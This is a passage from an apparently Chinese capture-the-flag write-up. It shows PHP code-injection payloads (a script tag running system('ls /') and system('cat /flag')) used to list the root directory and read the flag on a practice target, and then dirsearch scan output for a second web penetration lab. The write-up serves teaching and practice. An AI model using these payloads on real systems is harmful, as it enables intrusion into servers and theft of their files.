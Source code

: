 构造如下语句,查看文件目录

```php
<script language="php">system("ls /")</script>
```

![collector-nav](../assets/collector-nav.png)

构造语句，取得flag

```php
<script language="php">system("cat /flag")</script>
```

![collector-flag](../assets/collector-flag.png)

flag:

> flag{bb0a3025-5764-4b36-95de-b106d0df38c5}

### web综合渗透靶场flag1

开启靶机，使用**dirsearch**扫目录

> [20:07:10] 301 -  169B  - /.idea 
> 
> [20:07:10] 403 -  555B  - /.idea/
> 
> [20:07:10] 200 -  541B  - /.idea/dataSources.xml
> 
> [20:07:10] 200 - 1004B  - /.idea/dataSources.local.xml
> 
> [20:07:11] 200 -  273B  - /.idea/modules.xml
> 
> [20:07:11] 200 -    6KB - /.idea/workspace.xml
> 
> [20:07:58] 301 -  169B  - /admin 
> 
> [20:08:04] 200 -    2KB - /admin/login.php
> 
> [20:08:39] 301 -  169B  - /api 
> 
> [20:09:44] 200 -   25B  - /flag.php
> 
> [20:10:13] 301 -  169B  - /lib 
> 
> [20:10:17] 200 -    1KB - /login.php
> 
> [20:11:32] 301 -  169B  - /static 
> 
> [20:11:49] 301 -  169B  - /upload 
> 
> [20:11:49] 403 -  555B  - /upload/
> 
> [20:11:50] 302 -   52KB - /user.php  ->  login.php
